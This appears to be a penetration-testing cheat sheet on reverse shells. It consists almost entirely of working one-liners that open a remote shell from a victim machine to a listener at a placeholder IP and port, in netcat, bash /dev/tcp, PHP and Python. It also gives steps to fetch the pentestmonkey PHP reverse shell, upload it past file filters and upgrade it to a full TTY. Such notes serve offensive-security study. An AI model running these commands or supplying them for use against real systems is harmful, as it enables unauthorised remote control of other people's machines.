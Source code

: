 # Reverse shell

Start listening on host computer with netcat:

```bash
nc -lvnp <port>
```

General reverse shell options on victim:

## Netcat

```bash
nc <ip> <port> -c bash
```

## Bash

```bash
/bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

## PHP

```php
<?php exec(“/bin/bash -c ‘bash -i >& /dev/tcp/<ip>/<port> 0>&1’”); phpinfo(); ?>
```

## Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP reverse shell

First, download the script:

    curl -LO https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Change `ip` and `port` in the script (use `ip addr` for ip, `port` can be anything that's available):

    nano php-reverse-shell.php

Also probably rename, see [Bypass File Upload Filtering](https://sushant747.gitbooks.io/total-oscp-guide/content/bypass_image_upload.html).

Next, start `nc`:

    nc -lvnp <port>

Finally, upload the script to the server, and open the newly created link.

To upgrade the dumb shell:

    python -c 'import pty; pty.spawn("/bin/bash")'
    # Ctrl-Z
    stty raw -echo
    fg
    reset
    # Set terminal to vt100

